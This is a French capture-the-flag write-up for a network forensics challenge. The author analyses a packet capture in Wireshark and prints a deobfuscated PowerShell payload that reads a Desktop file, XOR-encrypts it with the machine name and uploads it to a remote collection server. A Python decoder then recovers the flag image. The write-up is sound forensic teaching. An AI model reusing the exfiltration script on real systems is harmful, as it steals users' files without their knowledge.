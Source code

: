# WRITE-UP SODASTREAM

On est face à un challenge de forensique réseau avec un fichier `.pcapng` :

```bash
file sodastream-capture.pcapng
sodastream-capture.pcapng: pcapng capture file - version 1.0
```

On l'ouvre dans Wireshark et on inspecte les protocoles réseaux utilisés :

![protocols-stats](assets/protocols-stats.png)

On a principalement des paquets TCP dans notre capture avec un gros blob de data transmis en HTTP.

Si on filtre sur le protocole HTTP, on peut voir seulement 8 paquets.
Un `GET /payload.ps1` et un `POST /upload` attirent notre attention.

Pour obtenir la vue suivante, on clique droit sur notre requête GET et sur Suivre flux HTTP :

![get-payload](assets/get-payload.png)

On est face à un script Powershell obfusqué (avec `Invoke-Stealth` pour les curieux).
On peut chercher à le déchiffrer à la main mais un LLM peut aussi nous le faire rapidement: 

```powershell
$targetPath = "$env:USERPROFILE\Desktop\secret_file"

if ($env:COMPUTERNAME -eq "WINDOWS-1") {
    # Clé de chiffrement = nom de la machine en UTF8
    $key = [System.Text.Encoding]::UTF8.GetBytes($env:COMPUTERNAME)

    # Lecture du fichier à exfiltrer
    $data = [System.IO.File]::ReadAllBytes($targetPath)

    # Application d’un XOR byte-à-byte avec la clé
    $encoded = New-Object byte[] ($data.Length)
    for ($i = 0; $i -lt $data.Length; $i++) {
        $encoded[$i] = $data[$i] -bxor $key[$i % $key.Length]
    }

    # Envoi des données chiffrées vers le serveur de collecte
    $uploadUri = "http://10.50.20.16/upload"
    $webClient = New-Object System.Net.WebClient
    $webClient.UploadData($uploadUri, $encoded) | Out-Null
}
```

Il se trouve que le script upload une image vers un serveur distant.
Nous n'avons pas accès à la ressource locale `secret_file` mais uniquement au fichier XORé envoyé sur le C2.

![schema-archi](assets/schema-archi.png)

On fait `Fichier > Exporter Objets > HTTP` pour extraire un fichier `upload`.
Ensuite, on va unXOR le fichier avec la clé qui est le nom de l'ordinateur, soit `WINDOWS-1` :

```python
#!/usr/bin/env python3
def unxor_file(input_path, output_path, key_str):
    key = key_str.encode('utf-8')
    with open(input_path, 'rb') as f:
        data = f.read()

    decoded = bytearray(len(data))
    for i in range(len(data)):
        decoded[i] = data[i] ^ key[i % len(key)]

    with open(output_path, 'wb') as f:
        f.write(decoded)

if __name__ == '__main__':
    input_file = 'upload'
    output_file = 'decoded_output'
    key = 'WINDOWS-1'
    unxor_file(input_file, output_file, key)
```

Le fichier écrit est une image :

```bash
file decoded_output
decoded_output: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, progressive, precision 8, 503x496, components 3
```

En l'ouvrant on peut voir notre flag.